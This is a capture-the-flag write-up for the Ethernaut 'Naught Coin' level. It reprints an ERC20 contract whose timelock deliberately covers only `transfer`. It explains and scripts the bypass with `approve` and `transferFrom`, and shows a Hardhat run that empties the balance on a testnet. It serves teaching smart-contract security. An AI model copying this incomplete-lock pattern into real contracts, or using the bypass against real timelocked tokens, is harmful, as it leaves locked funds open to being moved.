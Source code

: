 ```yaml
---
title: "Ethernaut #15 Naught Coin"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Naught Coin challenge writeup
---
```


## Naught Coin

### Challenge

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

* The [ERC20](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) Spec
* The [OpenZeppelin](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) codebase


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

### Background

This challenge is very simple if one knows/learns the `erc20` interface. If we look closely there is more than one ways `erc20` tokens can be transfered.

`approve(address spender, uint256 amount)` and `function transferFrom(address from, address to, uint256 amount)` are functions that allow someone to spend tokens without being the owner. Those functions are useful when interacting with some middleman/broker contract. For example a user might want to buy an NFT from a marketplace. The user can allow the marketplace contract to spend funds by calling the `approve` function with the address of the marketplace and the amount the marketplace can spend. Then, when the swap is to happen, the marketplace can `transferFrom` the original address to some address up to the amount that was approved.

### Attack

The contract here only timelocks the `transfer` function, not the `transferFrom` and `approve` functions. This will allow the owner of the tokens to `approve` some address (even its self) to spend the tokens, and then use `transferFrom` to send them to another account.

* use the `approve` function to allow some address (even self) to spend the full amount of tokens
* use the `transferFrom` function to send the funds to some other account


#### nauthg-coin-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    naughtCoinAddress = "0xC316BA23E78dB02313f32C386C3773960d76C9dA";
    contract = await ethers.getContractAt("NaughtCoin", naughtCoinAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)

    // get current balance
    balance = await contract.balanceOf(account.address)
    console.log("Current Balance: " + balance)

    // approve self to spend funds
    tx = await contract.connect(account).approve(account.address, balance)
    receipt = await tx.wait()

    // spend funds using transferFrom
    tx = await contract.connect(account).transferFrom(account.address, accounts[1].address, balance)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance: " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/naught-coin-solve.js --network rinkeby
Level address  : 0xC316BA23E78dB02313f32C386C3773960d76C9dA
Current Balance: 1000000000000000000000000
New Balance    : 0
```

### Success Message

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
